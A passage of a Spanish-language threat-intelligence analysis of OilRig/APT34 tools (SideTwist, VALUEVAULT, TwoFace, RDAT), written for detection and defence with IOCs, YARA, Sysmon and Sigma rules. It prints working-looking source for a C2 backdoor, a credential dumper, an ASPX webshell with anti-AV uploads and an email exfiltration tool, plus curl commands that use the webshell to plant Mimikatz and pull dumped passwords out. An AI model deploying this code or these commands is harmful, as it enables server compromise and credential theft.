    char username[256], hostname[256], domain[256];

    // GetUserName API - Obtiene usuario actual
    GetUserNameA(username, &size);

    // GetComputerName API - Obtiene nombre del equipo
    size = 256;
    GetComputerNameA(hostname, &size);

    // GetComputerNameEx API - Obtiene dominio
    size = 256;
    GetComputerNameExA(ComputerNameDnsDomain, domain, &size);

    // Construir identificador único del implante
    sprintf(implantID, "%s_%s_%s", username, hostname, domain);
}
```

**Análisis:**
- Utiliza Windows API nativas para evitar suspicacias
- Crea un identificador único para el implante basado en información del host
- Este ID se envía en cada beacon al C2 para identificar el sistema comprometido

**2. Protocolo de Comunicación C2:**

```cpp
// Configuración del servidor C2 (líneas 180-219)
#define C2_SERVER "192.168.0.4"
#define C2_PORT 443
#define C2_URI "/"

void SideTwist::SetupC2() {
    // Configurar dirección IP y puerto del C2
    serverAddress.sin_family = AF_INET;
    serverAddress.sin_addr.s_addr = inet_addr(C2_SERVER);
    serverAddress.sin_port = htons(C2_PORT);
}
```

**3. Cifrado de Comunicaciones (XOR):**

```cpp
// comms.cpp líneas 106-111
#define XOR_KEY 0x1C  // Clave XOR estática

void EncryptDecryptXOR(char* data, int length) {
    for (int i = 0; i < length; i++) {
        data[i] ^= XOR_KEY;
    }
}
```

**Análisis Crítico:**
- ⚠️ **Debilidad:** XOR con clave estática es fácilmente reversible
- ⚠️ **Detección:** Patrones de cifrado XOR detectables con análisis de entropía
- ✓ **Evasión:** Suficiente para evitar inspección visual simple de tráfico

**4. Parsing e Ejecución de Comandos:**

```cpp
// SideTwist.cpp líneas 65-79
void SideTwist::ParseAndExecuteCommand(char* command) {
    // Formato del comando: [OPCODE] [ARGUMENTS]
    // Opcodes:
    // 101 - Ejecutar comando de sistema
    // 102 - Descargar archivo del C2
    // 103 - Cargar archivo al C2

    int opcode = atoi(strtok(command, " "));

    switch(opcode) {
        case 101:
            ExecuteSystemCommand(strtok(NULL, ""));
            break;
        case 102:
            DownloadFile(strtok(NULL, "|"));
            break;
        case 103:
            UploadFile(strtok(NULL, ""));
            break;
    }
}
```

**5. Ejecución de Comandos del Sistema:**

```cpp
// SideTwist.cpp líneas 102-114
void SideTwist::ExecuteSystemCommand(char* cmd) {
    // Crear proceso cmd.exe con output redirigido
    SECURITY_ATTRIBUTES sa = {sizeof(SECURITY_ATTRIBUTES), NULL, TRUE};
    HANDLE hStdoutRead, hStdoutWrite;

    CreatePipe(&hStdoutRead, &hStdoutWrite, &sa, 0);

    PROCESS_INFORMATION pi;
    STARTUPINFO si = {0};
    si.cb = sizeof(STARTUPINFO);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdOutput = hStdoutWrite;
    si.hStdError = hStdoutWrite;

    // Ejecutar comando
    char cmdline[1024];
    sprintf(cmdline, "cmd.exe /c %s", cmd);
    CreateProcessA(NULL, cmdline, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);

    // Leer output
    char buffer[4096];
    DWORD bytesRead;
    ReadFile(hStdoutRead, buffer, sizeof(buffer), &bytesRead, NULL);

    // Enviar output al C2
    SendOutputToC2(buffer, bytesRead);
}
```

**6. Mecanismo de Killswitch:**

```cpp
// SideTwist.cpp - Verificación en cada ejecución
void SideTwist::CheckKillswitch() {
    char killswitchPath[MAX_PATH];
    sprintf(killswitchPath, "%s\\SystemFailureReporter\\update.xml",
            getenv("LOCALAPPDATA"));

    if (GetFileAttributesA(killswitchPath) == INVALID_FILE_ATTRIBUTES) {
        // Archivo no existe - terminar implante
        exit(0);
    }
}
```

**Análisis del Killswitch:**
- Mecanismo de seguridad operacional para el atacante
- Permite desactivar el implante eliminando un archivo
- No requiere comunicación con C2 para desactivar
- ⚠️ **Implicación defensiva:** El implante permanece en disco pero inactivo

##### Flujo de Ejecución Completo

```
1. Ejecución vía Scheduled Task (cada 5 minutos)
   └─> SystemFailureReporter.exe

2. Verificación de Killswitch
   └─> Si update.xml NO existe → EXIT
   └─> Si update.xml existe → Continuar

3. Recolección de Host Info
   └─> GetUserName(), GetComputerName(), GetDomain()
   └─> Construir implantID

4. Beacon al C2 Server
   └─> HTTP GET a 192.168.0.4:443/
   └─> Enviar implantID en request
   └─> Parsear response para comandos

5. Si hay comando pendiente:
   ├─> Opcode 101: Ejecutar cmd.exe
   ├─> Opcode 102: Descargar archivo del C2
   └─> Opcode 103: Cargar archivo al C2

6. Enviar resultados al C2
   └─> HTTP POST con output cifrado (XOR)

7. Terminar ejecución
   └─> Esperar próxima ejecución programada (5 min)
```

##### **Técnicas de Evasión**

**1. Camuflaje del Servidor C2:**
- El servidor C2 responde con una página HTML legítima de error de Flickr
- Solo implantes registrados reciben comandos embebidos en `<script>` tags
- Análisis superficial del tráfico parece navegación web normal

**2. Naming y Location:**
- Nombre: `SystemFailureReporter.exe` - aparenta ser componente legítimo de Windows
- Ubicación: `%LOCALAPPDATA%\SystemFailureReporter\` - path común para aplicaciones
- Tarea programada: `SystemFailureReporter` - nombre genérico de sistema

**3. Network Evasion:**
- Puerto 443 (HTTPS) - típicamente permitido en firewalls
- Aunque no usa SSL/TLS real, el puerto es menos sospechoso que otros
- Volumen de tráfico bajo (beacons cada 5 minutos)

**4. Behavioral Evasion:**
- No persistence agresiva (solo scheduled task)
- No inyección en procesos legítimos
- No hooks de sistema
- Mínima footprint en memoria

##### Indicadores de Compromiso (IOCs)

**Archivos:**
```
MD5: [Hash específico de la compilación]
SHA256: [Hash específico de la compilación]

Rutas:
- C:\Users\[username]\AppData\Local\SystemFailureReporter\SystemFailureReporter.exe
- C:\Users\[username]\AppData\Local\SystemFailureReporter\update.xml

Scheduled Task:
- Nombre: SystemFailureReporter
- Comando: C:\Users\[username]\AppData\Local\SystemFailureReporter\SystemFailureReporter.exe
- Trigger: Every 5 minutes
```

**Network:**
```
C2 IP: 192.168.0.4 (específico del escenario)
Puerto: 443
Protocolo: HTTP (no HTTPS real)
User-Agent: [Default Windows HTTP client]

Patrón de tráfico:
- Beacons periódicos cada ~5 minutos
- Requests HTTP GET seguidos de POST
- Tamaño pequeño de requests (<1KB típicamente)
```

**Detección con YARA:**

```yaml
rule OilRig_SideTwist {
    meta:
        description = "Detecta SideTwist backdoor de OilRig"
        author = "Threat Intel Team"
        date = "2024"
        malware_family = "SideTwist"

    strings:
        // Strings característicos
        $s1 = "SystemFailureReporter" ascii
        $s2 = "update.xml" ascii
        $s3 = "cmd.exe /c" ascii

        // Funciones Windows API características
        $api1 = "GetUserNameA" ascii
        $api2 = "GetComputerNameA" ascii
        $api3 = "GetComputerNameExA" ascii

        // XOR key pattern (byte 0x1C usado repetidamente)
        $xor_pattern = { 6A 1C 5? [0-10] 30 ?? }

    condition:
        uint16(0) == 0x5A4D and  // PE header
        filesize < 500KB and
        (
            (3 of ($s*)) or
            (all of ($api*)) or
            $xor_pattern
        )
}
```

##### **Recomendaciones de Defensa**

**Detección:**
1. Monitorear creación de scheduled tasks con paths en `%LOCALAPPDATA%`
2. Alertar sobre procesos que realizan beacons HTTP periódicos
3. Analizar tráfico a puerto 443 que NO es SSL/TLS
4. Buscar patrones de cifrado XOR en tráfico de red

**Prevención:**
1. Restricción de ejecución desde `%LOCALAPPDATA%` con AppLocker
2. Deshabilitar creación de scheduled tasks para usuarios no-admin
3. Egress filtering estricto (whitelist de destinos permitidos)
4. Endpoint Detection and Response (EDR) con behavioral analytics

---

#### VALUEVAULT - Credential Dumper

**Clasificación:** Credential Access Tool
**Lenguaje:** Go
**Primera Observación:** 2021 (Mandiant)
**Familia de Malware:** Custom tool de APT34/OilRig

##### Descripción General

VALUEVAULT es un credential dumper especializado desarrollado por OilRig para extraer credenciales almacenadas en Windows Vault y Windows Credential Manager. A diferencia de herramientas más agresivas como Mimikatz que requieren privilegios elevados y acceso a LSASS, VALUEVAULT opera en el contexto del usuario actual y extrae credenciales que el usuario tiene permiso de acceder.

##### Funcionamiento Técnico

**Arquitectura:**

```
VALUEVAULT (b.exe)
├── Windows Vault Accessor
│   ├── Enumeración de vaults
│   ├── Lectura de items de vault
│   └── Descifrado de credenciales
├── Credential Manager Accessor
│   ├── Enumeración de credenciales
│   └── Lectura de secrets
└── Output Writer
    └── Escritura a fsociety.dat
```

**Flujo de Operación:**

```
1. Inicialización
   └─> Cargar DLLs de Windows (vaultcli.dll, credui.dll)

2. Abrir Windows Vaults
   └─> VaultEnumerateVaults() - Listar todos los vaults
   └─> VaultOpenVault() - Abrir cada vault

3. Enumerar Items del Vault
   └─> VaultEnumerateItems() - Obtener items
   └─> Para cada item:
       ├─> VaultGetItem() - Leer detalles del item
       └─> Extraer: Resource, Username, Password

4. Procesar Credential Manager
   └─> CredEnumerate() - Listar credenciales
   └─> Para cada credencial:
       └─> Extraer secrets si están disponibles

5. Formatear y Escribir Output
   └─> Crear archivo fsociety.dat
   └─> Formato: [Resource] | [Username] | [Password]
```

##### Código Fuente Clave

**Apertura del Windows Vault (vault.go líneas 91-97):**

```go
// Abrir Windows Vault
func OpenVault() error {
    var vaultHandle uintptr
    var vaultCount uint32

    // VaultEnumerateVaults - Obtener lista de vaults
    ret, _, _ := procVaultEnumerateVaults.Call(
        0,  // Reserved
        uintptr(unsafe.Pointer(&vaultCount)),
        uintptr(unsafe.Pointer(&vaultHandle)),
    )

    if ret != 0 {
        return fmt.Errorf("VaultEnumerateVaults failed: %d", ret)
    }

    // Iterar sobre cada vault
    vaults := (*[1 << 30]VAULT_GUID)(unsafe.Pointer(vaultHandle))[:vaultCount:vaultCount]

    for _, vaultGuid := range vaults {
        // Abrir vault específico
        var vault uintptr
        ret, _, _ := procVaultOpenVault.Call(
            uintptr(unsafe.Pointer(&vaultGuid)),
            0,  // Flags
            uintptr(unsafe.Pointer(&vault)),
        )

        if ret == 0 {
            // Vault abierto exitosamente
            EnumerateVaultItems(vault)
        }
    }

    return nil
}
```

**Extracción de Items:**

```go
func EnumerateVaultItems(vaultHandle uintptr) {
    var itemCount uint32
    var items uintptr

    // VaultEnumerateItems - Listar items en el vault
    ret, _, _ := procVaultEnumerateItems.Call(
        vaultHandle,
        0x0200,  // VAULT_ENUMERATE_ALL_ITEMS
        uintptr(unsafe.Pointer(&itemCount)),
        uintptr(unsafe.Pointer(&items)),
    )

    if ret != 0 {
        return
    }

    // Procesar cada item
    itemArray := (*[1 << 30]uintptr)(unsafe.Pointer(items))[:itemCount:itemCount]

    for i := uint32(0); i < itemCount; i++ {
        var item VAULT_ITEM

        // VaultGetItem - Obtener detalles completos del item
        ret, _, _ := procVaultGetItem.Call(
            vaultHandle,
            itemArray[i],
            uintptr(unsafe.Pointer(&item)),
        )

        if ret == 0 {
            // Extraer credencial
            resource := item.Resource.String()
            username := item.Identity.String()
            password := item.Authenticator.String()

            // Escribir a output
            WriteCredential(resource, username, password)
        }
    }
}
```

##### Windows Vault vs LSASS Dumping

**Comparación de Técnicas:**

| Aspecto | VALUEVAULT (Windows Vault) | Mimikatz (LSASS) |
|---------|----------------------------|-------------------|
| **Privilegios Requeridos** | Usuario actual (low privilege) | SYSTEM o Admin con SeDebugPrivilege |
| **Proceso Objetivo** | Windows Vault Service | lsass.exe |
| **Credenciales Obtenidas** | Credenciales guardadas por el usuario | Credenciales en memoria de todos los logons |
| **Detección** | Baja - API legítimas | Alta - Acceso a LSASS es altamente sospechoso |
| **Scope** | Solo credenciales del usuario actual | Todas las credenciales en el sistema |
| **EDR Evasion** | Alto - Operaciones normales de usuario | Bajo - Típicamente alertado por EDR |

##### **Tipos de Credenciales Extraídas**

**Windows Vault almacena:**

1. **Web Credentials**
   - Sitios web guardados en Internet Explorer/Edge
   - Formularios de autenticación HTTP
   - Ejemplo: `http://intranet.corp.com | user@corp | P@ssw0rd!`

2. **Windows Credentials**
   - Credenciales de red guardadas
   - Remote Desktop connections
   - SMB shares con "Remember my credentials"
   - Ejemplo: `\\fileserver\share | DOMAIN\user | credentials`

3. **Generic Credentials**
   - Aplicaciones que usan Credential Manager API
   - Scripts con credenciales almacenadas
   - Herramientas de terceros

##### Indicadores de Compromiso

**Archivo:**
```
Nombre original: VALUEVAULT.exe
Nombre en escenario: b.exe
Tamaño: ~2-3 MB (binario Go compilado)
Ubicación: C:\Users\[username]\AppData\Roaming\b.exe

Output file:
Nombre: fsociety.dat
Ubicación: C:\Users\[username]\AppData\Roaming\fsociety.dat
Formato: Texto plano con credenciales
```

**Comportamiento Forense:**

```
Procesos API Windows llamados:
- vaultcli.dll:VaultEnumerateVaults
- vaultcli.dll:VaultOpenVault
- vaultcli.dll:VaultEnumerateItems
- vaultcli.dll:VaultGetItem
- advapi32.dll:CredEnumerate

Event IDs generados:
- Sysmon EventID 1: Process creation (b.exe)
- Sysmon EventID 11: File creation (fsociety.dat)
- Sysmon EventID 7: Module load (vaultcli.dll, credui.dll)
```

**Detección con Sysmon:**

```xml
<RuleGroup groupRelation="or">
  <!-- Detección de acceso a Windows Vault APIs -->
  <ImageLoad onmatch="include">
    <ImageLoaded condition="end with">vaultcli.dll</ImageLoaded>
  </ImageLoad>

  <!-- Correlación: Proceso + DLL + Archivo de salida -->
  <FileCreate onmatch="include">
    <TargetFilename condition="contains">AppData\Roaming</TargetFilename>
    <TargetFilename condition="end with">.dat</TargetFilename>
  </FileCreate>
</RuleGroup>
```

##### Mitigaciones

**Prevención:**

1. **Deshabilitar almacenamiento de credenciales:**
   ```powershell
   # GPO: Computer Configuration > Administrative Templates >
   # Windows Components > Credential User Interface
   # "Do not allow passwords to be saved" = Enabled
   ```

2. **Credential Guard:**
   - Protege Windows Vault mediante virtualization-based security
   - Requiere hardware compatible (TPM 2.0, UEFI)

3. **Least Privilege:**
   - Usuarios no deben guardar credenciales privilegiadas en Vault
   - Usar PAM (Privileged Access Management) para cuentas admin

**Detección:**

1. **API Monitoring:**
   - Alertar sobre llamadas a `VaultEnumerateVaults` desde procesos no-whitelisted
   - EDR puede detectar acceso anómalo a Windows Vault

2. **File Monitoring:**
   - Monitorear creación de archivos .dat en AppData
   - FIM en directorios de usuario para archivos con credenciales

---

#### TwoFace - WebShell

**Clasificación:** WebShell / Persistent Backdoor
**Lenguaje:** ASP.NET (C#)
**Primera Observación:** 2017 (Palo Alto Networks Unit 42)
**Familia de Malware:** Custom tool de APT34/OilRig

##### Descripción General

TwoFace es un webshell sofisticado diseñado para ser instalado en servidores Microsoft Exchange (IIS) y proporcionar acceso remoto persistente mediante HTTP. Su nombre proviene de su capacidad de presentar "dos caras": una interfaz normal para usuarios legítimos y funcionalidad maliciosa para el atacante.

##### Arquitectura del WebShell

**Estructura del Código (contact.aspx):**

```
TwoFace WebShell (contact.aspx)
├── Request Parsing Module
│   ├─> Parámetro "pro" - Selector de función
│   ├─> Parámetro "cmd" - Comando a ejecutar
│   ├─> Parámetro "upl" - Upload funcionalidad
│   └─> Parámetro "don" - Download funcionalidad
├── Command Execution Module
│   ├─> Process.Start(cmd.exe)
│   ├─> Output capture
│   └─> Response encoding
├── File Upload Module
│   ├─> Receive multipart form data
│   ├─> Save to specified path
│   └─> Optional rename
├── File Download/Exfiltration Module
│   ├─> Read file from disk
│   ├─> Stream to HTTP response
│   └─> Content-Disposition header
└── Cleanup Module
    └─> Delete temporary files
```

##### Código Fuente Análisis

**1. Parsing de Parámetros (líneas 12-21):**

```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>

<script runat="server">
void Page_Load(object sender, EventArgs e) {
    string pro = Request.Form["pro"];
    string cmd = Request.Form["cmd"];
    string upl = Request.Form["upl"];
    string don = Request.Form["don"];

    // Enrutamiento basado en parámetros
    if (!String.IsNullOrEmpty(cmd) && pro == "cmd.exe") {
        ExecuteCommand(cmd);
    }
    else if (!String.IsNullOrEmpty(upl)) {
        UploadFile();
    }
    else if (!String.IsNullOrEmpty(don)) {
        DownloadFile(don);
    }
}
</script>
```

**2. Ejecución de Comandos (líneas 176-194):**

```csharp
void ExecuteCommand(string cmd) {
    try {
        // Configurar proceso
        ProcessStartInfo psi = new ProcessStartInfo();
        psi.FileName = "cmd.exe";
        psi.Arguments = "/c " + cmd;
        psi.RedirectStandardOutput = true;
        psi.RedirectStandardError = true;
        psi.UseShellExecute = false;
        psi.CreateNoWindow = true;

        // Ejecutar comando
        Process process = Process.Start(psi);

        // Capturar output
        string output = process.StandardOutput.ReadToEnd();
        string error = process.StandardError.ReadToEnd();

        process.WaitForExit();

        // Enviar resultado al atacante
        Response.Write("<pre>");
        Response.Write(output);
        Response.Write(error);
        Response.Write("</pre>");

    } catch (Exception ex) {
        Response.Write("Error: " + ex.Message);
    }
}
```

**Análisis de Seguridad:**
- ⚠️ **Riesgo Crítico:** Ejecución arbitraria de comandos como el proceso IIS (típicamente `SYSTEM` o `IIS APPPOOL`)
- ⚠️ **Sin Autenticación:** Depende de autenticación NTLM del servidor, pero cualquier usuario válido puede ejecutar comandos
- ⚠️ **Sin Logging:** No genera logs de aplicación sobre comandos ejecutados

**3. File Upload (líneas 58-115):**

```csharp
void UploadFile() {
    try {
        HttpFileCollection files = Request.Files;
        string savePath = Request.Form["sav"];  // Carpeta destino
        string newName = Request.Form["nen"];   // Nombre del archivo
        bool antiVirus = Request.Form["vir"] == "true";  // Evitar escaneo AV

        for (int i = 0; i < files.Count; i++) {
            HttpPostedFile file = files[i];

            if (file.ContentLength > 0) {
                // Construir path completo
                string filePath = Path.Combine(savePath, newName ?? file.FileName);

                // Técnica anti-AV: Escribir en chunks pequeños
                if (antiVirus) {
                    WriteFileInChunks(file.InputStream, filePath);
                } else {
                    file.SaveAs(filePath);
                }

                Response.Write("File uploaded: " + filePath);
            }
        }
    } catch (Exception ex) {
        Response.Write("Upload error: " + ex.Message);
    }
}

void WriteFileInChunks(Stream input, string filePath) {
    // Escribir archivo en chunks de 1KB para evadir scanning en tiempo real
    using (FileStream fs = new FileStream(filePath, FileMode.Create)) {
        byte[] buffer = new byte[1024];
        int bytesRead;

        while ((bytesRead = input.Read(buffer, 0, buffer.Length)) > 0) {
            fs.Write(buffer, 0, bytesRead);
            System.Threading.Thread.Sleep(10);  // Delay entre chunks
        }
    }
}
```

**Técnicas de Evasión AV:**
- Escritura en chunks pequeños con delay
- Intento de evitar detección heurística de antivirus on-access
- ⚠️ **Efectividad:** Variable; muchos AV modernos detectan esta técnica

**4. File Download/Exfiltration (líneas 120-145):**

```csharp
void DownloadFile(string filePath) {
    try {
        if (File.Exists(filePath)) {
            // Leer archivo
            byte[] fileBytes = File.ReadAllBytes(filePath);

            // Configurar response para download
            Response.Clear();
            Response.ContentType = "application/octet-stream";
            Response.AddHeader("Content-Disposition",
                "attachment; filename=" + Path.GetFileName(filePath));
            Response.AddHeader("Content-Length", fileBytes.Length.ToString());

            // Enviar archivo
            Response.BinaryWrite(fileBytes);
            Response.Flush();
            Response.End();

        } else {
            Response.Write("File not found: " + filePath);
        }
    } catch (Exception ex) {
        Response.Write("Download error: " + ex.Message);
    }
}
```

##### Uso en el Escenario OilRig

**Comandos Típicos Ejecutados:**

```bash
# 1. Reconocimiento inicial
curl -k -X POST --data "pro=cmd.exe" --data "cmd=whoami" \
     --ntlm -u 'DOMAIN\user:password' \
     https://target/ews/contact.aspx

# 2. Descarga de herramienta (Mimikatz)
curl -k -X POST -F "upl=f1" -F 'sav=C:\Windows\Temp' \
     -F "nen=m64.exe" -F 'f1=@mimikatz.exe' \
     --ntlm -u 'DOMAIN\user:password' \
     https://target/ews/contact.aspx

# 3. Ejecución de herramienta
curl -k -X POST --data "pro=cmd.exe" \
     --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit > C:\Windows\Temp\01.txt" \
     --ntlm -u 'DOMAIN\user:password' \
     https://target/ews/contact.aspx

# 4. Exfiltración de resultados
curl -k -X POST -o 01.txt --data 'don=C:\Windows\Temp\01.txt' \
     --ntlm -u 'DOMAIN\user:password' \
     https://target/ews/contact.aspx
```

##### Indicadores de Compromiso

**Archivo WebShell:**
```
Nombre: contact.aspx (o variantes)
Ubicación común: C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\
Tamaño: ~15-20 KB
Atributos: Típicamente marcado como oculto (attrib +h)

Hashes (varían por versión):
MD5: [Hash específico]
SHA256: [Hash específico]
```

**IIS Log Patterns:**

```
Indicadores en logs IIS (W3C format):
- POST requests a /ews/contact.aspx
- POST data contiene "pro=cmd.exe"
- POST data contiene "upl=", "don="
- Múltiples requests desde misma IP source
- User-Agent: curl/* o python-requests/*
- Authentication: NTLM con misma cuenta repetidamente
- Response sizes grandes (indicativo de command output o file download)
```

**Ejemplo de log entry sospechoso:**

```
2024-10-14 15:32:10 10.1.0.6 POST /ews/contact.aspx - 443 - 192.168.0.4 curl/7.68.0 - 200 0 0 1250
2024-10-14 15:32:25 10.1.0.6 POST /ews/contact.aspx - 443 - 192.168.0.4 curl/7.68.0 - 200 0 0 524288
```

##### Detección del WebShell

**1. Hunting con PowerShell:**

```powershell
# Buscar archivos .aspx sospechosos en Exchange
$exchPath = "C:\Program Files\Microsoft\Exchange Server\"
$webshellPatterns = @(
    'ProcessStartInfo',
    'Process.Start',
    'cmd.exe',
    'Request.Form',
    'Request.Files',
    'Response.BinaryWrite'
)

Get-ChildItem -Path $exchPath -Filter *.aspx -Recurse -Force |
    ForEach-Object {
        $content = Get-Content $_.FullName -Raw

        $matchCount = 0
        foreach ($pattern in $webshellPatterns) {
            if ($content -match [regex]::Escape($pattern)) {
                $matchCount++
            }
        }

        if ($matchCount -ge 3) {
            [PSCustomObject]@{
                File = $_.FullName
                LastWriteTime = $_.LastWriteTime
                Size = $_.Length
                Matches = $matchCount
                Status = "SUSPICIOUS"
            }
        }
    }
```

**2. Análisis de IIS Logs:**

```powershell
# Analizar logs IIS para actividad de webshell
$iisLogPath = "C:\inetpub\logs\LogFiles\W3SVC1\"
$suspiciousPatterns = @('pro=cmd', 'upl=', 'don=', 'cmd=')

Get-Content "$iisLogPath\u_ex*.log" | Where-Object {
    $_ -match '/ews/contact.aspx' -and
    $_ -match 'POST'
} | ForEach-Object {
    foreach ($pattern in $suspiciousPatterns) {
        if ($_ -match [regex]::Escape($pattern)) {
            Write-Host "[ALERT] Webshell activity detected:" -ForegroundColor Red
            Write-Host $_
            break
        }
    }
}
```

**3. Sigma Rule para Detección:**

```yaml
title: TwoFace WebShell HTTP Activity
status: experimental
description: Detecta requests HTTP característicos de TwoFace webshell
logsource:
    category: webserver
    product: iis
detection:
    selection_path:
        cs-uri-stem|endswith: '/contact.aspx'
    selection_method:
        cs-method: 'POST'
    selection_parameters:
        cs-uri-query|contains:
            - 'pro=cmd'
            - 'upl=f1'
            - 'don='
    condition: selection_path and selection_method and selection_parameters
falsepositives:
    - Ninguno conocido (contact.aspx no es archivo legítimo de Exchange)
level: critical
tags:
    - attack.persistence
    - attack.t1505.003
```

##### Mitigaciones

**Prevención:**

1. **File Integrity Monitoring:**
   ```powershell
   # Monitorear cambios en directorios IIS/Exchange
   $paths = @(
       "C:\inetpub\wwwroot",
       "C:\Program Files\Microsoft\Exchange Server\*\ClientAccess"
   )

   foreach ($path in $paths) {
       $watcher = New-Object System.IO.FileSystemWatcher
       $watcher.Path = $path
       $watcher.Filter = "*.aspx"
       $watcher.IncludeSubdirectories = $true
       $watcher.EnableRaisingEvents = $true

       Register-ObjectEvent $watcher "Created" -Action {
           Write-Host "[ALERT] New .aspx file created: $($EventArgs.FullPath)"
           # Trigger alert/response
       }
   }
   ```

2. **Aplicar Attribute-Based Access Control:**
   - Solo admin debe poder escribir en directorios IIS
   - IIS APPPOOL no debe tener permisos de escritura

3. **WAF Rules:**
   - Bloquear POST requests a archivos .aspx no-whitelistados
   - Detectar patterns de webshells en POST data

**Detección:**

1. **EDR/EPP en Servidor:**
   - Monitorear w3wp.exe spawning cmd.exe
   - Alertar sobre child processes anómalos de IIS worker process

2. **SIEM Correlation:**
   ```
   IF [POST to suspicious .aspx file]
     AND [Same source IP > 10 requests in 10 minutes]
     AND [Response sizes > 10KB]
   THEN Alert: Possible WebShell Activity
   ```

3. **Network IDS:**
   - Signatures para detectar "pro=cmd", "upl=", "don=" en POST data
   - Alertar sobre curl/wget user-agents hacia servidores Exchange

**Respuesta:**

1. **Contención Inmediata:**
   - Eliminar archivo webshell
   - Reiniciar application pool de IIS
   - Revisar todos los archivos .aspx en servidor

2. **Investigación:**
   - Análisis completo de IIS logs
   - Identificar todos los comandos ejecutados
   - Verificar qué archivos fueron descargados/exfiltrados

---

#### RDAT - Exfiltration Backdoor

**Clasificación:** Data Exfiltration Tool / Backdoor
**Lenguaje:** C# (.NET)
**Primera Observación:** 2018 (Palo Alto Networks Unit 42)
**Familia de Malware:** Custom tool de APT34/OilRig

##### **Descripción General**

RDAT es una herramienta sofisticada de exfiltración diseñada para robar datos utilizando Microsoft Exchange Web Services (EWS) API como canal de exfiltración. Su característica distintiva es el uso de esteganografía para ocultar datos robados dentro de archivos de imagen BMP que son enviados como adjuntos de email.

##### **Arquitectura y Funcionalidad**

**Componentes Principales:**

```
RDAT (VMware.exe / Nt.dat)
├── Argument Parser
│   ├─> --path: Archivo a exfiltrar
│   ├─> --to: Destinatario (email del atacante)
│   ├─> --from: Remitente (cuenta comprometida)
│   ├─> --server: Servidor Exchange
│   ├─> --password: Contraseña de cuenta
│   └─> --chunksize: Tamaño de fragmentos
├── File Chunking Module
│   ├─> Leer archivo objetivo
│   ├─> Dividir en chunks del tamaño especificado
│   └─> Generar metadata de chunks
├── Steganography Module
│   ├─> Cargar plantilla guest.bmp
│   ├─> Appendear datos del chunk
│   └─> Generar imagen esteganográfica
├── EWS Client Module
│   ├─> Autenticación con credenciales
│   ├─> Crear EmailMessage
│   ├─> Attachar imagen BMP
│   └─> SendAndSaveCopy()
└── Progress Tracker
    └─> Logging de chunks enviados
```

##### **Código Fuente Análisis**

**1. Main Entry Point y Argument Parsing:**

```csharp
using System;
using System.IO;
using Microsoft.Exchange.WebServices.Data;

namespace RDAT {
    class Program {
        static void Main(string[] args) {
            // Parse argumentos
            string filePath = GetArg(args, "--path");
            string toEmail = GetArg(args, "--to");
            string fromEmail = GetArg(args, "--from");
            string server = GetArg(args, "--server");
            string password = GetArg(args, "--password");
            int chunkSize = int.Parse(GetArg(args, "--chunksize", "200000"));

            // Validar archivo existe
            if (!File.Exists(filePath)) {
                Console.WriteLine("File not found: " + filePath);
                return;
            }

            // Iniciar exfiltración
            ExfiltrateFile(filePath, toEmail, fromEmail, server, password, chunkSize);
        }

        static string GetArg(string[] args, string key, string defaultValue = null) {
            for (int i = 0; i < args.Length - 1; i++) {
                if (args[i] == key) {
                    return args[i + 1];
                }
            }
            return defaultValue;
        }
    }
}
```

**2. File Chunking (Program.cs líneas 104-109):**

```csharp
static void ExfiltrateFile(string filePath, string toEmail, string fromEmail,
                           string server, string password, int chunkSize) {

    // Leer archivo completo
    byte[] fileData = File.ReadAllBytes(filePath);
    int totalSize = fileData.Length;

    // Calcular número de chunks
    int totalChunks = (int)Math.Ceiling((double)totalSize / chunkSize);

    Console.WriteLine($"File size: {totalSize} bytes");
    Console.WriteLine($"Chunk size: {chunkSize} bytes");
    Console.WriteLine($"Total chunks: {totalChunks}");

    // Configurar EWS
    ExchangeService service = SetupEWSConnection(fromEmail, password, server);

    // Procesar cada chunk
    for (int i = 0; i < totalChunks; i++) {
        // Calcular offset y tamaño del chunk
        int offset = i * chunkSize;
        int length = Math.Min(chunkSize, totalSize - offset);

        // Extraer chunk
        byte[] chunk = new byte[length];
        Array.Copy(fileData, offset, chunk, 0, length);

        // Crear imagen esteganográfica
        byte[] stegoImage = CreateStegoImage(chunk, i);

        // Exfiltrar vía email
        SendChunkViaEmail(service, stegoImage, i, toEmail, fromEmail);

        Console.WriteLine($"Chunk {i+1}/{totalChunks} sent ({length} bytes)");
    }

    Console.WriteLine("Exfiltration complete!");
}
```

**3. Creación de Imagen Esteganográfica (Program.cs líneas 117-129):**

```csharp
static byte[] CreateStegoImage(byte[] dataChunk, int chunkNumber) {
    // Cargar plantilla BMP legítima
    byte[] bmpTemplate = File.ReadAllBytes("guest.bmp");

    // Crear array para imagen final
    byte[] stegoImage = new byte[bmpTemplate.Length + dataChunk.Length];

    // Copiar imagen BMP original
    Array.Copy(bmpTemplate, 0, stegoImage, 0, bmpTemplate.Length);

    // Append datos robados al final
    Array.Copy(dataChunk, 0, stegoImage, bmpTemplate.Length, dataChunk.Length);

    // Guardar temporalmente
    string tempFile = $"guest_chunk{chunkNumber}.bmp";
    File.WriteAllBytes(tempFile, stegoImage);

    return stegoImage;
}
```

**Análisis de la Técnica Esteganográfica:**

```
Estructura del Archivo BMP Resultante:
┌───────────────────────────────────┐
│ BMP File Header (14 bytes)        │ ← Válido, parseable como BMP
├───────────────────────────────────┤
│ DIB Header (40 bytes)             │ ← Contiene ancho, alto, etc.
├───────────────────────────────────┤
│ Pixel Data                        │ ← Imagen visual (guest.bmp)
│ (tamaño declarado en header)      │
├───────────────────────────────────┤
│ DATOS EXFILTRADOS (appended)     │ ← ¡Ocultos al final!
│ (200,000 bytes de sitedata_db.bak) │ ← No son parte de la imagen
└───────────────────────────────────┘

Detección:
- Visualización: Se ve como imagen normal
- File size: Significativamente mayor que lo declarado en header BMP
- Hex analysis: Datos adicionales después del final de pixel data
```

**4. Exfiltración vía EWS API (Program.cs líneas 43-75):**

```csharp
static void SendChunkViaEmail(ExchangeService service, byte[] stegoImage,
                              int chunkNumber, string toEmail, string fromEmail) {
    try {
        // Crear nuevo email message
        EmailMessage message = new EmailMessage(service);

        // Configurar email
        message.Subject = $"Document_{DateTime.Now.ToString("yyyyMMdd")}_{chunkNumber}";
        message.Body = new MessageBody("Attached document");
        message.ToRecipients.Add(toEmail);

        // Guardar imagen temporalmente para adjuntar
